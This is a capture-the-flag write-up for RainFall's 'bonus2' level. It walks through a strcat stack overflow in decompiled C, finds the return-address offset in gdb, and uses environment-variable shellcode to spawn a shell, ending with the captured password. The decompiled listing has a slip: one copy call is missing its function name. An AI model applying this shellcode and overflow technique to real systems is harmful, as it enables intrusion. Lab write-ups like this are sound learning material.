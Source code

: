 # bonus2

### First analysis

For this level we have two functions, a main and a greetuser function that we can see here:

```c
int language;

int greetuser(char *src) {
    char    dest[64];

    if ( language == 1 ) {
        (dest, "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20", 13);
    }
    else if (language == 2) {
        strncpy(dest, "Goedemiddag! ", 13);
    }
    else {
        strncpy(dest, "Hello ", 7);
    }

    strcat(dest, src);
    return puts(dest);
}

int main(int ac, char **av) {
    char    buffer[76];
    char    buffer_final[76];
    char    *lang;

    if (ac != 3)
        return 1;

    memset(buffer, 0, sizeof(buffer));
    strncpy(buffer, av[1], 40);
    strncpy(buffer + 40, av[2], 32);
    lang = getenv("LANG");

    if (lang) {
        if (!memcmp(lang, "fi", 2)) {
            language = 1;
        } else if (!memcmp(lang, "nl", 2)) {
            language = 2;
        }
    }

    memcpy(buffer_final, buffer, sizeof(buffer_final));

    return greetuser(buffer);
}
```

As we can see we have a global static variable language. The main will start by creating 2 buffers of 76, then cleaning it, and write in it av[1] and 40 char later at buffer[40], av[2]. It will then get the env variable LANG that will be stored into a lang variable. Then something comparable with a switch statement will read this variable content, and if it starts with "fi", the language will be set at 1, if it starts with nl, it will be set at 2. We then copy our buffer into a final buffer that will be given to greetuser. greetuser will then check the value of language and write a message in the language according to that. Copy the message into a new buffer of 64, and then concatenate this message with the final buffer of 76. Which (if our buffer size is correct) could lead to an overflow of 25 bits.

When trying to write payloads with a lot of characters we can observe this:

```sh
(gdb) run $(python -c "print('A' * 200)") $(python -c "print('A' * 200)")
Starting program: /home/user/bonus2/bonus2 $(python -c "print('A' * 200)") $(python -c "print('A' * 200)")
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

We can see that the segfault address is 0x41414141. So we can edit an address of redirection. We can now search for the precise padding:

```sh
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwyyyyzzzz
Starting program: /home/user/bonus2/bonus2 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwyyyyzzzz
Goedemiddag! AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJaaaabbbbccccddddeeeeffffgggghhhh

Program received signal SIGSEGV, Segmentation fault.
0x67676766 in ?? ()
```

We land on 0x67676766 so fggg in hexadecimal, which means it is 23 char of padding in the second buffer. We can try again by filling the first av[1] so with 40 chars, and the second with just enough to edit the address:

```sh
(gdb) run $(python -c "print('A' * 40)") $(python -c "print('A' * 23 + 'BCBC')")
Starting program: /home/user/bonus2/bonus2 $(python -c "print('A' * 40)") $(python -c "print('A' * 23 + 'BCBC')")
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCBC

Program received signal SIGSEGV, Segmentation fault.
0x43424342 in ?? ()
```

Perfect we are now sure of where to edit the return address. So as we do since two levels we are going to try the env variable method, and see if it can works. And surprisingly again, it works:

```sh
bonus2@RainFall:~$ export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
bonus2@RainFall:/tmp$ ./a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: 0xbffff71b
Lil-endian format: \x1b\xf7\xff\xbf
bonus2@RainFall:~$ ./bonus2 $(python -c "print('A' * 40)") $(python -c "print('A' * 23 + '\x1b\xf7\xff\xbf')")
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

As we can see there is clearly a problem those past 2 exercises, bonus1 and bonus2 are solved by the same method as bonus0, and we start to feel that we are losing the actual point of the exercice. We definitely need to search deeper to understand what this exercice want from us.

